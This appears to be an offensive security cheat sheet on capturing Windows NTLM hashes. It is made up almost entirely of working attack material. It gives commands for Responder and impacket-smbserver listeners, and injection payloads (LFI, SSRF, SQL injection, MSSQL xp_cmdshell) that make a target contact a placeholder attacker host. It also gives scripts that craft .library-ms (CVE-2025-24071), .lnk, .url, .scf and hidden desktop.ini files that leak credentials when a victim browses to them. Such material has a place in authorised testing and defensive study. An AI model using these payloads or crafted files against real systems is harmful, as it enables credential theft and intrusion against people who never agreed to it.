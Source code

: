 ```yaml
---
icon: ear
---
```


# Capturing NTLM hashes

## Listener

```bash
responder -I <interface>
```

```
impacket-smbserver share /dev/null -smb2support
```

## Possible Attacks

### Via web vulnerability

If you discover a web vulnerability (such as LFI, SQLI, XXE, SSRF, SSTI) that allows you to include remote files, you can exploit it to steal the NTLM hash of the user running the process. For example:

<pre class="language-powershell"><code class="lang-powershell"># LFI
?page=\\&#x3C;attaker>\test

# SSRF
?url=file://&#x3C;attaker>/test

# SQL Injection
?id=1' union select null,load_file('\\\\&#x3C;attaker>\\test'),null-- -
  
  ## MSSQL
  ?id=1' union select null,(select x from OpenRowset(BULK '\\&#x3C;attaker>\test',SINGLE_CLOB) R(x)),null-- -
<strong>  ?id=1' union select null,(EXEC xp_cmdshell 'dir \\&#x3C;attaker>\test'),null-- -
</strong></code></pre>

### Via .library-ms file (CVE-2025-24071)

```sh
cat > shared.library-ms <<EOF
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\<attaker>\\test</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
EOF
```

### Via .lnk file

```powershell
# With powershell
$targetPath = "\\<attaker>\test" 
$shortcutPath = "C:\path\to\your\!shortcut.lnk" 
$WScriptShell = New-Object -ComObject WScript.Shell 
$shortcut = $WScriptShell.CreateShortcut($shortcutPath) 
$shortcut.TargetPath = $targetPath 
$shortcut.Save()
```

### Via .url file

```sh
echo '[InternetShortcut]' > \!shortcut.url
echo 'URL=file:////<attaker>/test' >> \!shortcut.url
```

### Via .scf file

> Not working on newer Windows versions.

```sh
cat > \!file <<EOF
[Shell]
Command=2
IconFile=explorer.exe,3
[Taskbar]
Command=ToggleDesktop
[InternetShortcut]
URL=file:////<attaker>/test
EOF
```

### Via desktop.ini file

> Not working on newer Windows versions.

```powershell
# With powershell
echo '[.ShellClassInfo]' > desktop.ini
echo 'IconResource=\\<attaker>\test' >> desktop.ini
attrib +s +h desktop.ini
```

## References

[https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
